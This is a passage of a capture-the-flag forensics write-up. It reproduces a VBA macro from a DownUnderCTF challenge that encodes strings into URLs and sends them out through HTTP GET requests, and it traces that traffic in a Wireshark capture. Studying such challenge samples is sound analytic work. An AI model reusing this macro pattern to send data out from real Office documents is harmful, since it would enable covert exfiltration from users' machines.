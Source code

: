 ```
    V = totalyFine(U)
    J = "http://downunderctf.com/" + V
    superThing (J)
    W = S + G + D + F
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    
End Sub
```

You can see that there're so many functions inside, and this function maybe related to pcapng file: 

```
Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function
```

Open Wireshark and check HTTP traffic and I found the traffic that was generated by this function: 

![image](https://github.com/odintheprotector/odintheprotector.github.io/assets/75618225/747a4150-f084-4295-ab60-1ed54ab7e3b0)

You can see these directories look like ASCII code, back to source code, I found two functions were responsible for decrypt them:

```
Public Function totalyFine(A As String) As String
    Dim B As String
    B = Replace(A, " ", "-")
    totalyFine = B
End Function
```
